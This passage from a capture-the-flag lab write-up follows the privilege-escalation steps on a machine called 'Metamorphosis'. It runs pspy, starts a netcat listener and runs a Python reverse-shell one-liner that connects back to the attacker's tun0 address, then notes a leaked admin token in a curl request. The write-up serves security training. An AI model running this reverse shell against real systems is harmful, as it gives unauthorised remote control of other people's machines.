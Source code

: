 ![[Metamorphosis/assets/Untitled 17.png|Untitled 17.png]]

  

Now we have successfully downloaded the pspy tool to the target machine. Now to run the pspy tool, first we have update the permissions of the pspy file to executable permissions. For that we use the command : `chmod +x pspy`

  

![[Metamorphosis/assets/Untitled 18.png|Untitled 18.png]]

  

![[Metamorphosis/assets/Untitled 19.png|Untitled 19.png]]

I tried to run the file but it showed no output. This is because the shell that is obtained via sqlmap has limited capabilities. So we can try to obtain a reverse shell to the target machine.

I am going to use the following python reverse shell command to obtain the revers hell.

First start a netcat listener. The command is : `nc -lvnp 1234`

![[Metamorphosis/assets/Untitled 20.png|Untitled 20.png]]

After starting the netcat listener, run this command on the target machine with the ip address as tun0 ip address to obtain the reverse shell.

  

```
export RHOST="<tun0 IP Address>";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

  

If the command is successfully executed you should have obtained the reverse shell.

  

![[Metamorphosis/assets/Untitled 21.png|Untitled 21.png]]

  

Now try to run the pspy tool.

![[Metamorphosis/assets/Untitled 22.png|Untitled 22.png]]

  

Now you can see that the pspy tool is running.

  

![[Metamorphosis/assets/Untitled 23.png|Untitled 23.png]]

  

If you check the output of the pspy file, you can see a suspicious `curl` request to [`http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12`](http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12) .
